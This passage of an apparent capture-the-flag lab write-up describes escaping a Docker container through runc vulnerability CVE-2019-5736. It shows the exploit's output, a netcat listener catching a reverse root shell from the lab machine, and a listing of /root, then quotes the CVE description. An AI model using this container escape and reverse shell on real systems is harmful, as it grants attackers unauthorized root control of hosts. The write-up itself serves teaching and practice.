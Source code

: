 ```bash
[+] opened ro /proc/self/exe <3>.
[+] constructed fdpath </proc/self/fd/3>
[+] bad_init is ready -- see </tmp/bad_init_log> for logs.
[*] dying to allow /proc/self/exe to be unused...

```

Meanwhile on our local machine...
```bash
$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.150] from (UNKNOWN) [10.10.10.230] 50662
sh: 0: can't access tty; job control turned off
# whoami
root
```
The exploit worked and we have now a **root** shell on the victim machine.


The flag is waiting for us under the `/root/` directory
```bash
# ls /root/
cleanup.sh
docker-runc
reset.sh
root.txt
start.sh
# 
```

### A quick look at the vulnerability: CVE-2019-5736
CVE description by MITRE:

*"runc through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe. "*


The **runC** is a container runtime. It contains all the code used to interact with the  system features related to the container.  
The vulnerability had a big impact given the wide diffusion of containers using runC.

Very interesting read if you want to learn more about the vulnerability and the exploit:
https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/




